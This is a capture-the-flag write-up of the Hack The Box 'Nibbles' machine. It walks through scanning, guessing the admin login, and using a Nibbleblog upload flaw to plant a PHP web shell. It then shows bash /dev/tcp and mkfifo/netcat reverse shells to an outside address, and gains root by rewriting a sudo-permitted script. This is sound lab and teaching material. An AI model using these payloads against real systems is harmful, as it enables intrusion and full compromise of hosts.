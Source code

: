 ```yaml
---
title: "Nibbles HTB Writeup"
publishedAt: "2018-07-01"
updatedAt: "2020-10-12"
summary: "Writeup of the Nibbles HackTheBox machine."
---
```


- Creator: [@mrb3n](https://www.hackthebox.eu/home/users/profile/2984)
- Host: [hackthebox.eu](https://hackthebox.eu)

## Owning User

Let's start up with the usual Nmap port scan.

> `~ ❯❯❯ nmap -sC -sV 10.10.10.75`

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-25 18:52 EEST
Nmap scan report for 10.10.10.75 (10.10.10.75)
Host is up (0.067s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; pr
otocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 13.97 seconds
```

Looks like we have a webserver. Let's fire up our browser and have a look.

<Image
    alt="10.10.10.75"
    src="nibbles-hack-the-box-writeup/10.10.10.75.png"
/>

Hello to you too! A simple `view-source` reveals an interesting directory:

```html
<b>Hello world!</b>


<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Navigating to the new directory, we find an empty blog.

<Image
    alt="nibbleblog"
    src="nibbles-hack-the-box-writeup/nibbleblog.png"
/>

Let's try to `dirb` for any suspicious files within this 'empty' blog.

> `~ ❯❯❯ dirb http://10.10.10.75/nibbleblog/`

```bash
-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon Jun 25 18:58:57 2018
URL_BASE: http://10.10.10.75/nibbleblog/
WORDLIST_FILES: /usr/local/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.10.75/nibbleblog/ ----


==> DIRECTORY: http://10.10.10.75/nibbleblog/admin/
+ http://10.10.10.75/nibbleblog/admin.php (CODE:200|SIZE:1401)

==> DIRECTORY: http://10.10.10.75/nibbleblog/content/
+ http://10.10.10.75/nibbleblog/index.php (CODE:200|SIZE:4743)

==> DIRECTORY: http://10.10.10.75/nibbleblog/languages/

==> DIRECTORY: http://10.10.10.75/nibbleblog/plugins/
+ http://10.10.10.75/nibbleblog/README (CODE:200|SIZE:4628)

==> DIRECTORY: http://10.10.10.75/nibbleblog/themes/

-----------------
END_TIME: Mon Jun 25 19:04:50 2018
DOWNLOADED: 4612 - FOUND: 3
```

The `admin.php` page seems interesting; we should have a look.

<Image
    alt="admin"
    src="nibbles-hack-the-box-writeup/admin.png"
/>

A login screen. Let's give it some guessing shots to see if we can get lucky.

After a few tries, we notice that there's some sort of WAF, blacklisting users after consecutive failed authentication attempts.

<Image
    alt="blacklist"
    src="nibbles-hack-the-box-writeup/blacklist.png"
/>

A few minutes later, we were able to retry.

The credentials `admin` for username and `nibbles` for password did the job, saving us from the trouble of bruteforcing our way in (using some dynamic proxy). Of course, it's Hack The Box; the machine's name always comes in handy at some point.

After conducting some research, we come accross a nibbleblog vulnerability: [CVE-2015-6967](https://seclists.org/fulldisclosure/2015/Sep/5). It turns out that we can upload any `php` script as an image in the "My image" plugin section. 

A dead simple php script should do the job:

```php
<?php

echo shell_exec($_GET['e']);
```

Once we upload our 'image' onto the bloggin platform, we can navigate to [10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php](http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?e=id) to see that we are now able to execute commands through our url bar!

<Image
    alt="id"
    src="nibbles-hack-the-box-writeup/id.png"
/>

Evidently, we now have 'nibbler' privileges (i.e. user privileges). So, let's pop a reverse shell.

Firstly, we should create a file containing our reverse shell script inside the `/tmp/` directory, where we should logically have the appropriate permissions. 

```bash
10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?e=/bin/echo "/bin/bash -i %3E%26 /dev/tcp/10.10.15.174/443 0%3E%261" > /tmp/reverse.txt
```

Subsequently, let's ensure that we have execute permissions to run the temporary file using `chmod 777`.

```bash
10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?e=/bin/chmod 777 /tmp/reverse.txt
```

Finally, we can now fire up a listener on our local device using `netcat`  and execute our reverse shell file.

```bash
10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?e=/bin/bash /tmp/reverse.txt/
```

We should now have a shell as user "nibbler":

> `root@kali:~/# nc -vlp 443`

```bash
listening on [any] 443 ...
connect to [10.10.15.174] from 10.10.10.75 [10.10.10.75] 39002
bash: cannot set terminal process group (1335): Inappropriate ioctl for device
bash: no job control in this shell
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ 
```

We can subsequently navigate to the `/home/` directory where we can retrieve our first flag:

> `nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home/nibbler`

> `nibbler@Nibbles:/home/nibbler/$ cat user.txt`

```bash
{USER_HASH_GOES_HERE}
```

## Owning Root

Taking a look at the contents of nibbler's home directory, we can also find a zip folder called `personal.zip`. Let's try unzipping it.

> `nibbler@Nibbles:/home/nibbler/$ ls`

```bash
personal.zip
user.txt
```

> `nibbler@Nibbles:/home/nibbler/$ unzip personal.zip`

```bash
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

The archive inflated a new file called `monitor.sh`. Let's navigate to its directory.

> `nibbler@Nibbles:/home/nibbler/$ cd personal/stuff`

> `nibbler@Nibbles:/home/nibbler/personal/stuff/$ ls -la`

```bash
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

The file contains a bash script called [tecmint_monitor.sh](https://github.com/atarallo/TECMINT_MONITOR/blob/master/tecmint_monitor.sh) which, according to the creator, "monitors linux health"; that's beside the point though. Now, let's modify the contents of the file into a reverse shell script and try to run it as `root`. 

> `nibbler@Nibbles:/home/nibbler/personal/stuff/$ sed -i d monitor.sh`

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff/$ echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.15.174 7777 > /tmp/f" >> monitor.sh
```

> `nibbler@Nibbles:/home/nibbler/personal/stuff/$ sudo -u root monitor.sh`

We should make sure to open up a listener on the same port before running the above command and wait to see if we can get a connection.

> `root@kali:~/Desktop# nc -vlp 7777`

```bash
listening on [any] 7777 ...
connect to [10.10.15.174] from 10.10.10.75 [10.10.10.75] 49104
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

And there we have it! We now have root priviliges. Let's extract our `root.txt` hash.

```bash
# cd /root
# ls
root.txt
# cat root.txt
{ROOT_HASH_GOES_HERE}
```

I hope you enjoyed this walkthrough! Make sure to stay tuned for more *Hack The Box* writeups coming up soon!
